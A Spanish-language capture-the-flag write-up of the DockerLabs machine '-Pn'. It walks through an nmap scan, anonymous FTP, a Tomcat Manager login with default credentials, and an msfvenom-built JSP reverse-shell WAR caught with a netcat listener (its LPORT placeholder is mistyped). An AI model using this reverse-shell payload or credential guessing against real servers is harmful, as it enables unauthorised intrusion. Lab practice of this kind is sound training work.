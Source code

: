 ```yaml
---
title: -Pn - DockerLabs
published: true
categories: DockerLabs
---
```


## Video de YouTube
<iframe width="560" height="315" src="https://www.youtube.com/embed/pY0jAM6t-5A" frameborder="0" allowfullscreen></iframe>


| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | ElPinguinoDeMario | 

## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![image](https://github.com/romabri/romabri.github.io/assets/51706860/4b79a6f1-4bf2-4e43-b435-78036aba152f)

Vemos que esta abierto el puerto 21 `FTP`y el puerto 8080 `HTTPS`

## FTP

`ftp 172.17.0.2`

![image](https://github.com/romabri/romabri.github.io/assets/51706860/279d6aab-c5aa-49d9-88b6-d6d9c6158a61)

Vemos que en el repositorio tenemos un archivo llamado tomcat.txt vamos a descargarlo.

![image](https://github.com/romabri/romabri.github.io/assets/51706860/8afde0c9-add3-411e-857f-96cbaaf7e2b3)

## Puerto 8080

Si vamos a Manager Apps nos pide un usuario y una contraseña 

Vamos a buscarlo en HackTricks y encontramos una serie de contraseñas default y esta funciona tomcat:s3cr3t

![image](https://github.com/romabri/romabri.github.io/assets/51706860/8a4495b5-6b5e-45f6-82ac-79dadfacf490)

Para explotar tomcat usaremos un archivo war que nos devolverá una reverse shell.

Para hacer esto lo generamos asi 

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LHOST_IP> -f war -o revshell.war`

Ahora le damos a browse, seleccionamos el archivo war que hemos generado y le damos a deploy.

Nos ponemos en escucha con net cat

`nc -lvnp [Puerto]`

Si le damos click ahí nos va a mandar la reverse shell

![image](https://github.com/romabri/romabri.github.io/assets/51706860/fab93ba3-6a51-4c1a-b519-5fb73c48cc1f)

Al recibir la conexión ya seremos ROOT

![image](https://github.com/romabri/romabri.github.io/assets/51706860/680934d5-7a40-4c35-bae1-cd53a7033fbe)

